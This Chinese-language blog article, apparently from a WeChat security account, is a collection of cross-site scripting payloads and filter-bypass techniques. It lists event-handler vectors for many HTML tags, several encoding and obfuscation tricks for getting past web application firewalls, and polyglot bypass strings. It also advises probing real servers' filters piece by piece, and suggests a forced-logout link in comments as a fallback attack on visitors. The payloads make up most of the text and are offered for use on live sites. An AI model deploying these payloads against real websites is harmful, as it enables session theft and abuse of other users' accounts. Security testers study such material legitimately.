 #  XSS漏洞挖掘下   
 GG安全   2025-04-12 09:38  
  
**免责声明**  
  
由于传播、利用本公众号红云谈安全所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，公众号红云谈安全及作者不为**此**  
承担任何责任，一旦造成后果请自行承担！本文为连载文章欢迎大家关注红云谈安全公众号！  
  
# 前言  
  
你碰到WAF是不是都绕不过去？  
  
你是不是只会使用别人的绕过语句？  
  
你是不是只要别人的绕过语句给拦了就束手无措了？  
# XSS漏洞常见标签  
  
这些标签不用刻意去记，当需要用到的时候直接翻笔记即可，经常用到的话大脑会形成肌肉记忆，不断的去用自然会在脑海慢慢留下记忆 无过滤情况  
  
<sciript>  
```
<script>alert(1);</sciript>
```  
  
<img>  
```
图片加载错误时触发<img src="x" onerror=alert(1)><img src="1" onerror=eval("alert('xss')")>鼠标指针移动到元素时触发<img src=1 onmouseover="alert(1)">鼠标指针移出时触发<img src=1 onmouseout="alert(1")>
```  
  
<a>  
```
<a href="http://www.qq.com">qq</a><a href=javascript:alert('1')>test</a><a href=j"avascript:a" onmouseover="alert(/xss/)">aa</a><a href="" onclick=eval(alert('xss'))>aa</a><a href=kycg.asp?ttt=1000 onmouseover=prompt('xss') y=2016>aa</a>
```  
  
<input>  
```
<input onfocus="alert('xss');">竞争焦点，从而触发onblur事件<input onblur=alert("xss") autofocus><input autofocus>通过autofocus属性执行本身的focus事件，这个变量是使焦点自动跳转到输入元素上,触发焦点事件，无需用户去触发<input onfocus="alert('xss');" autofocus><input value="" onclick=alert('xss') type="text"><input name="name" value="" onmouseover=prompt('xss') bad=""><input name="name" value=""><script>alert('xss')</script>按下按键时触发<input type="text" onkeydown="alert(1)">按下按键时触发<input type="text" onkeypress="alert(1)">松开按键式时触发<input type="text" onkeyup="alert(1)">
```  
  
<from>  
```
<form action=javascript:alert('xss') method="get"><form action=javasript:laert('xss')><form action=1 onmouseover=alert('xss)>
```  
  
iframe  
```
<iframe onload=alert("xss");></iframe><iframe src=javascript:alert('xss')></iframe><iframe src="data:text/html,&lt;script&gt;alert('xss')&lt;/script&gt;"></iframe><iframe src="data:text/html;base64,<script>alert('xss')</script>"><iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgneHNzJyk8L3NjcmlwdD4="><iframe src="aaa" onmouseover=alert('xss') /><iframe>
```  
  
<svg>  
```
<svg onload=alert(1)>
```  
  
<body>  
```
<body onload="alert(1)">利用换行符以及autofocus，自动去触发onscroll事件，无需用户去触发<body onscroll=alert("xss");><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><input autofocus>
```  
  
<button>  
```
元素上点击鼠标时触发<button onclick="alert(1)">text</button>
```  
  
<p>  
```
元素上按下鼠标时触发<p onmousedown="alert(1)">text</p>元素上释放鼠标时触发<p onmouseup="alert(1)">text</p>
```  
  
<details>  
```
<details ontoggle="alert('xss');">使用open属性触发ontoggle事件，无需用户去触发<details open ontoggle="alert('xss');">
```  
  
<select>  
```
<select onfocus=alert(1)></select>通过autofocus属性执行本身的focus事件，这个向量是使焦点自动跳到输入元素上,触发焦点事件，无需用户去触发<select onfocus=alert(1) autofocus>
```  
  
<video>  
```
<video><source onerror="alert(1)">
```  
  
<audio>  
```
<audio src=x onerror=alert("xss");>
```  
  
<textarea>  
```
<textarea onfocus=alert("xss"); autofocus>
```  
  
<keygen>  
```
<keygen autofocus onfocus=alert(1)> //仅限火狐
```  
  
javascript伪协议  
```
<a>标签<a href="javascript:alert('xss');">xss</a><iframe>标签<iframe src=javascript:alert('xss');></iframe><img>标签<img src=javascript:alert('xss')>//IE7以下<form>标签<form action="Javascript:alert(1)"><input type=submit>
```  
# WAF绕过思路  
## 过滤空格  
```
用 / 代替空格<img/src="x"/onerror=alert("xss");>
```  
## 过滤关键字  
### 大小写绕过  
  
<ImG sRc=x onerRor=alert("xss");>  
### 双写关键字  
  
(有些waf可能会只替换一次且是替换为空，这种情况下我们可以考虑双写关键字绕过，这要根据实战情况下进行改写)  
  
<imimgg srsrcc=x onerror=alert("xss");>  
### 1、字符拼接  
  
比如过滤的是alert(利用eval，不仅仅在img标签中其他标签照样适用可以不断进行改写)  
  
<img src="x" onerror="a=aler;b=t;c='(xss);';eval(a+b+c)">  
### 2、字符拼接  
  
(利用top，不仅仅在script标签中其他标签照样适用可以不断进行改写)  
```
<script>top["al"+"ert"](``xss``);</script>(只有两个``这里是为了凸显出有`符号)
```  
## 其它字符混淆  
```
有的waf可能是用正则表达式去检测是否有xss攻击，如果我们能fuzz出正则的规则，则我们就可以使用其它字符去混淆我们注入的代码了下面举几个简单的例子可利用注释`<<script>alert("xss");//<</script><scri<!--test-->pt>alert("hello world!")</scri<!--test-->pt>`标签的优先级`<title><img src=</title>><img src=x onerror="alert(``xss``);">` 因为title标签的优先级比img的高，所以会先闭合title，从而导致前面的img标签无效`<SCRIPT>var a="\\";alert("xss");//";</SCRIPT>`
```  
## 编码绕过  
```
Unicode编码绕过<img src="x" onerror="&#97;&#108;&#101;&#114;&#116;&#40;&#34;&#120;&#115;&#115;&#34;&#41;&#59;"><img src="x" onerror="eval('\u0061\u006c\u0065\u0072\u0074\u0028\u0022\u0078\u0073\u0073\u0022\u0029\u003b')">url编码绕过<img src="x" onerror="eval(unescape('%61%6c%65%72%74%28%22%78%73%73%22%29%3b'))"><iframe src="data:text/html,%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E"></iframe>Ascii码绕过<img src="x" onerror="eval(String.fromCharCode(97,108,101,114,116,40,34,120,115,115,34,41,59))">Hex绕过<img src=x onerror=eval('\x61\x6c\x65\x72\x74\x28\x27\x78\x73\x73\x27\x29')>八进制绕过<img src=x onerror=alert('\170\163\163')>base64绕过<img src="x" onerror="eval(atob('ZG9jdW1lbnQubG9jYXRpb249J2h0dHA6Ly93d3cuYmFpZHUuY29tJw=='))"><iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgneHNzJyk8L3NjcmlwdD4=">
```  
  
过滤括号  
```
当括号被过滤的时候可以使用throw来绕过<svg/onload="window.onerror=eval;throw'=alert\x281\x29';">
```  
  
过滤url地址  
```
使用url编码<img src="x" onerror=document.location=``http://%77%77%77%2e%62%61%69%64%75%2e%63%6f%6d/``>使用IP<img src="x" onerror=document.location=``http://2130706433/``>十进制<img src="x" onerror=document.location=``http://0177.0.0.01/``>八进制<img src="x" onerror=document.location=``http://0x7f.0x0.0x0.0x1/``>十六进制<img src="x" onerror=document.location=``//www.baidu.com``>html标签中用//可以代替http://使用\ (注意：在windows下\本身就有特殊用途，是一个path 的写法，所以\在Windows下是file协议，在linux下才会是当前域的协议)使用中文逗号代替英文逗号<img src="x" onerror="document.location=``http://www。baidu。com``">//会自动跳转到百度
```  
  
注意如果有的src直接插入的话，可以使用<img src="x" onerror=console.log(alert(document.cookie));>  
来测试  
```
限制 ” 符号，输入<img src=1 onclick=alert(‘1’)>限制 ‘ 符号，输入<img src=1 onclick=alert(/1/)>、<img src=1 onclick=”alert(1)”>限制 () 符号，输入<img src=1 onclick=”alert `’1’`”>限制 () ‘ ” 符号，输入<img src=1 onclick=alert `1`>
```  
## alert绕过  
```
 (alert)(1)a=alert,a(1)[1].find(alert)top[/al/.source+/ert/.source](1)al\u0065rt(1)top[‘al\145rt’](1)top[8680439..toString(30)](1)
```  
  
一些绕过语句  
```
<sVG/x=">"/oNloaD=confirm()///*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```  
  
<lol/onauxclick=[0].some(alert)>rightclick  
  
<svg onx=() onload=(confirm)(1)>  
  
<xssBypass/onpointermove=(confirm)(1)>MoveMouseHere  
  
<svg onx=() onload=(confirm)(1)>  
  
# 实战中的绕过思路  
  
在实战中每个服务器过滤拦截的参数不同，而真正掌握绕过并不是说利用别人的payload，因为别人的payload很可能在你挖掘漏洞的时候不管用！你要根据实战情况自己去编写绕过语句！不要一看到利用上面的绕过语句绕不过去就放弃了！可以明确告诉你，基本都需要自己来绕过，而且绝大多数xss漏洞都需要进行绕过。XSS绕过中**最重要**  
的就是XSS语句的**跟踪**  
，我们得跟踪我们输入的语句，然后根据服务器的拦截情况不断的去试。一定要多去跟踪，多去尝试！这样你绕过能力就会慢慢提升。![](https://mmbiz.qpic.cn/sz_mmbiz_png/HsnvOqazeMFjB0O5qSNPbwC3jVbPYOoiciclMbmGjgEHQiaptbKBxILWax8q4BZdfeeVjlXz26BT8EUm705owuwRA/640?wx_fmt=png "")  
1、先输入标签看哪些标签会给栏，不要一开始输入整个上面的payload，看哪些标签不给拦，一般第一开始先输入<img>  
，找到了不会拦截的标签就好办，然后对照上面绕过的思路进行改写语句，如果不会给拦截的标签绕不过去的话就果断选择下一个。输入标签的时候如果整个标签会给拦，那就先输入一小部分，如<select>  
标签会给拦截，那就先输入<se、<sele、<select这样一步一步的进行输入来看到底是怎么给拦截方式，弄懂基本的拦截思路就会比较容易绕过。  
  
2、后面就继续添加，比如会拦截onerror事件，那就先输入one，看还不会给栏，一步一步添加到整个onerror，那就根据上面的绕过思路来实现绕法。  
  
3、有的确实是绕不过去，就不要绕了，我遇到很多绕不过去的，只有img标签可以，但是也可以交一交，就是img标签后的链接更改为退出账号的链接，这样只要对方访问你的评论查看你的内容就自动账号退出，危害还是可以的。  
# dvwa靶场的作用  
  
除了刚开始初学者用来理解xss漏洞，更重要的是用来我们平常漏洞的挖掘，就是比如你在WAF绕过的时候，你写了一大串的WAF绕过语句，然后在实战中却没有弹窗成功，此时你需要做的就是将你写的这个WAF绕过语句在靶场中进行测试，如果靶场都不能弹窗成功，那么你就要思考是不是自己的语句写错了。自己在写绕过语句的时候可以先去靶场测试。  
  
  
**1**  
►  
  
**福利放送**  
  
    再次声明：本公众号及其发布的内容的使用者需自行承担由此产生的任何直接或间接的后果和损失，GG安全公众号和原文章作者不承担任何责任。  
  
****  
**edusrc邀请码 | 玄机邀请码**  
  
    免费不限量提供edusrc邀请码及  
玄机邀请码  
，可在的菜单栏  
资源获取-edusrc邀请码   
| 玄机邀请码  
中获取。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ia30l0vOygMG0stgMGrb9qOt6icialDd5WP60Tuk8mdKsbAHGHRgZpIrV0yUN479hWrFTa8NoPEumPTP3h3bO4iaWQ/640?wx_fmt=png&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
  
  
**2**  
►  
  
**往期精彩**  
  
[](http://mp.weixin.qq.com/s?__biz=MzkwMzMwODg2Mw==&mid=2247509586&idx=1&sn=c33b1b3ce59fa2fc523f6b062df185eb&chksm=c09ad502f7ed5c14486802007f8f59ba055137028c3f0a7ebe42547647ab3059ce2a0fea5a21&scene=21#wechat_redirect)  
  
[](http://mp.weixin.qq.com/s?__biz=MzkwMzMwODg2Mw==&mid=2247509586&idx=1&sn=c33b1b3ce59fa2fc523f6b062df185eb&chksm=c09ad502f7ed5c14486802007f8f59ba055137028c3f0a7ebe42547647ab3059ce2a0fea5a21&scene=21#wechat_redirect)  
  
[](http://mp.weixin.qq.com/s?__biz=MzkwMzMwODg2Mw==&mid=2247509586&idx=1&sn=c33b1b3ce59fa2fc523f6b062df185eb&chksm=c09ad502f7ed5c14486802007f8f59ba055137028c3f0a7ebe42547647ab3059ce2a0fea5a21&scene=21#wechat_redirect)  
[](https://mp.weixin.qq.com/s?__biz=MzIwMjE2NTM5Mg==&mid=2247485283&idx=1&sn=d26389e1d4ace54a43b2b2c893a474b6&scene=21#wechat_redirect)  
  
Edusrc高校证书测评  
  
  
[](http://mp.weixin.qq.com/s?__biz=MzkwMzMwODg2Mw==&mid=2247509558&idx=1&sn=4ed77b8fbe43290b3fb889465673e9a3&chksm=c09ad566f7ed5c70d7aba88f9aaf96b07004f382627a0f119dd22fe51bd893d3aece18f3917f&scene=21#wechat_redirect)  
  
[](http://mp.weixin.qq.com/s?__biz=MzkwMzMwODg2Mw==&mid=2247509558&idx=1&sn=4ed77b8fbe43290b3fb889465673e9a3&chksm=c09ad566f7ed5c70d7aba88f9aaf96b07004f382627a0f119dd22fe51bd893d3aece18f3917f&scene=21#wechat_redirect)  
  
[](http://mp.weixin.qq.com/s?__biz=MzkwMzMwODg2Mw==&mid=2247509558&idx=1&sn=4ed77b8fbe43290b3fb889465673e9a3&chksm=c09ad566f7ed5c70d7aba88f9aaf96b07004f382627a0f119dd22fe51bd893d3aece18f3917f&scene=21#wechat_redirect)  
[](https://mp.weixin.qq.com/s?__biz=MzIwMjE2NTM5Mg==&mid=2247485141&idx=1&sn=ffcd2813da3458253b630dfeb9fbe581&scene=21#wechat_redirect)  
  
绝版乌云重现：在VM中复活的安全宝藏  
  
  
[](http://mp.weixin.qq.com/s?__biz=MzkwMzMwODg2Mw==&mid=2247509558&idx=1&sn=4ed77b8fbe43290b3fb889465673e9a3&chksm=c09ad566f7ed5c70d7aba88f9aaf96b07004f382627a0f119dd22fe51bd893d3aece18f3917f&scene=21#wechat_redirect)  
  
[](http://mp.weixin.qq.com/s?__biz=MzkwMzMwODg2Mw==&mid=2247509558&idx=1&sn=4ed77b8fbe43290b3fb889465673e9a3&chksm=c09ad566f7ed5c70d7aba88f9aaf96b07004f382627a0f119dd22fe51bd893d3aece18f3917f&scene=21#wechat_redirect)  
  
[](http://mp.weixin.qq.com/s?__biz=MzkwMzMwODg2Mw==&mid=2247509558&idx=1&sn=4ed77b8fbe43290b3fb889465673e9a3&chksm=c09ad566f7ed5c70d7aba88f9aaf96b07004f382627a0f119dd22fe51bd893d3aece18f3917f&scene=21#wechat_redirect)  
[](https://mp.weixin.qq.com/s?__biz=MzIwMjE2NTM5Mg==&mid=2247484834&idx=1&sn=f5c5d3ca80704c6fcc466f7c24bd71d5&scene=21#wechat_redirect)  
  
钓鱼佬永不空军！社g之学姐送我“严重”漏洞  
  
  
